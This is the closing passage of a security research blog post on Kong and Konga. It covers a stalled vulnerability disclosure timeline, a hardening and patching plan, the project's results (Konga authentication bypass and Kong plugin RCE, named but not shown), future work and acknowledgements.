## Timeline for Konga

- 2022 Nov 02 - We publish the initial report on <https://huntr.dev/>
- That's pretty much it… `¯\_(ツ)_/¯` (GitHub issues were already stale)

No extra action have been taken with Konga for the following reasons:

- Vulnerabilities (as early as Apr 11, 2022) are already present in the GitHub's issues page with no commentary nor action from the maintainer
- Forks exist but none seems to patch the issues
- We received no answer from huntr.dev / Konga
- We finally saw some action on the GitHub repository, 3 years after the last commit!
- Oh wait, someone just added a sponsor link (<https://github.com/pantsel/konga/commit/5b2c57e50d0626077d67f464a122bfb6980ef93b>) and ran away. Maybe an account takeover?

## Hardening & Action Plan

So, one project has not been maintained for 3 years, and the other one denies having what we truly *think* is a vulnerability. Both of them affect around 50% of the Konga & Kong already known to Shodan, so it's already a widely deployed issue/misconfig. Then what?

Well, as always, spread the word, make people aware of what is exposed and how in/secure it actually is. In the meantime, try to push for best (and more human) practices for vulnerability disclosure and management… 😓

So by then, we knew that no help would come from Kong nor Konga. Hey, it's open source, take software, enjoy it, if you're not happy with it, patch and build it yourself right? Riiiiight. Right!

So we took time to review the bugs we found on the software, determine whether they were affecting our specific setup or not, and if so, what would be the best way to deal with them!

- Konga is not maintained & already vulnerable
  - We're not affected by the weak secret ! 🎉
  - Let's fork (private, sorry) & patch anyway!
    - Hard-coded weak secrets no more 🤦
    - Clear text passwords in the logs no more 🤦
  - Split out users / employee in two groups, admins (SRE) & read-only (the rest)
  - Deploy two Konga, Admin Vs RO. The RO can only reach the read-only kong admin endpoint. That way, even a broken Konga still can't do much with kong! 🥳
- Kong is maintained but "no bug" implies no patch (Hi Microsoft, stay calm please ☘️)
  - Restrict access to the Kong Admin API to the bare minimum, using ingress-blocking rules, and keeping the authentication with an API key.
  - Get rid of legacy configs, update Kong, harden config, minimize attack surface
  - Apply an allow-list on the plugins we really need
- Postgres & Secrets
  - We have strong secrets 👏 but they are still in the sandbox… 😭
  - We're not vulnerable to RCE as we rely on the hardened AWS aurora services! 🎉

In addition to the above modifications and patches, a huge review of the way we use Kong started. We therefore reviewed every route, path, regular expression, upstream server, plugins, sensitive assets' exposure, and more.

During this review, a few "alien routes" have been found and removed or hardened, and some third party sites made accessible by our frontal Kong have been pushed away from our trust boundaries.

As always, one step at a time, yet raising our beloved company security level!

## Conclusion & Tech-Forecast

Here were our initial project goals, and the now-associated results:

- Improve our understanding of Kong & Konga
  - Nailed it, we now know what's inside & how it works (mostly 😇)
- Find issues or potential holes to act on before they're exploited
  - Konga authentication bypass & privilege escalation 😱
  - Kong's impact of plugins & plugin-independent RCE 💥
- Find out if we can benefit even more from Kong's approach for explicit endpoint routing
  - Yes! We're making most of our attack surface (per-url basis for now) explicit by declaring every route, verb, and path. We KNOW (the huge majority of 😇) what we expose, which is the key to enforce security on a web application.
- Have fun on the way
  - 🔥 N.A.I.L.E.D. 🙃 I.T. 🔥

Is this the end, then? Been there, done that, new day?\
No.

The software life kind of never ends, there's just so many things to do, so many things to push, improve, and migrate! Here are a few things that will be tackled in the upcoming months.. 😏

- Migration of Kong & Konga from legacy EC2 to EKS 😎
- Kong version bump (Core components can be tricky to upgrade and often require a good amount of time & effort. The same goes for EKS cluster versions, KeyCloak, etc…)
- Security checks in the Gitlab CICD pipelines to prevent erroneous regex & sensitive assets' exposure. No developer should wake up on an early Monday morning and realize that last Friday, they exposed an internal loopback to the world without authentication!💗
- Anomaly detection & better observability with home-made Datadog plugins, for more fine-grained and fine-tuned sampling decisions & cost efficiency!

## Kudos & Opening

- Isaac DOMINGUEZ - Company caring & carrying SRE ❤️‍🔥
- Jules DUVIVIER @BaskFr - Manager, challenger, and trust-booster 😍
- Elie BLETON - Grumpy Pulse Team member, insanely skilled, efficient brainstorm partner
- Killian CHOPINET @YanZaX & Antoine CHOIMET
  - Patiently smiling when I complain about unexploitable bugs 😴
  - Raised really cool ideas and exploitation scenario on the way ⭐
- Friends from Pwn-Time 🍉
  - Technical & Emotional support during long and passionate research nights! 🌙

This article covered the most *cough cough* "obvious" way of exploiting these softwares.

That being said, during this research (4 weeks), around 25 attempts have been made, all leading to interesting results even if not exploitable as a full chain.

Articles might come in the upcoming months, covering more in depth the research process, what failed, and why.

Until then, take care, keep breaking software, and spreading kindness & awareness! 🌹
